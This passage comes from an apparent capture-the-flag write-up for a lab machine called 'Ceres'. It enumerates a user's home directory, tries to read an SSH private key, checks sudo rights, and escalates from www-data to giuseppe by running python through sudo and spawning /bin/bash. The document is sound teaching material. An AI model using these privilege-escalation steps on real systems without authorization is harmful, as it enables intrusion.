 ## ***PRIVILEGE ESCALATION***

When we read the ***/etc/passwd*** file on the remote machine earlier we found a user named ***'giuseppe'***. Going to the ***/home*** directory we can find his directory.

    $ pwd
    /home
    $ ls -l
    total 4
    drwxr-xr-x 4 giuseppe giuseppe 4096 Mar  7  2021 giuseppe

Going into the directory we can find the first flag, but we don't the permissions to read it.

    $ ls -la /home/giuseppe
    total 44
    drwxr-xr-x 4 giuseppe giuseppe 4096 Mar  7  2021 .
    drwxr-xr-x 3 root     root     4096 Mar  6  2021 ..
    -rw------- 1 giuseppe giuseppe    1 Jun  9 01:31 .bash_history
    -rw-r--r-- 1 giuseppe giuseppe  220 Mar  6  2021 .bash_logout
    -rw-r--r-- 1 giuseppe giuseppe 3766 Mar  6  2021 .bashrc
    drwxr-xr-x 3 giuseppe giuseppe 4096 Mar  6  2021 .local
    -rw-r--r-- 1 giuseppe giuseppe  807 Mar  6  2021 .profile
    drwxr-xr-x 2 root     root     4096 Mar  6  2021 .ssh
    -rw-r--r-- 1 giuseppe giuseppe  180 Mar  7  2021 .wget-hsts
    -rw-r--r-- 1 root     root        1 Jun  9 01:31 .zsh_history
    -rw------- 1 giuseppe giuseppe   26 Mar  7  2021 user.txt

Going to the ***/home/giuseppe/.ssh*** directory we have a private key, but it's just another rabbit hole.

    $ cat /home/giuseppe/.ssh/id_rsa
    ¿really?

:'(

    $ sudo -ll

        Matching Defaults entries for www-data on Ceres:                                                           
        env_reset, mail_badpass,                                                                               
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                          
                                                                                                            
    User www-data may run the following commands on Ceres:                                                     
                                                                                                            
    Sudoers entry:                                                                                             
        RunAsUsers: giuseppe                                                                                   
        Options: !authenticate                                                                                 
        Commands:                                                                                              
            /usr/bin/python  

The user ***'www-data'*** can run the ***python*** command as the user ***'giuseppe'*** without a password. We can open a python shell and open a bash shell as the user ***'giuseppe'***.

    $ sudo -u giuseppe python
    >>> import os
    >>> os.system('/bin/bash')
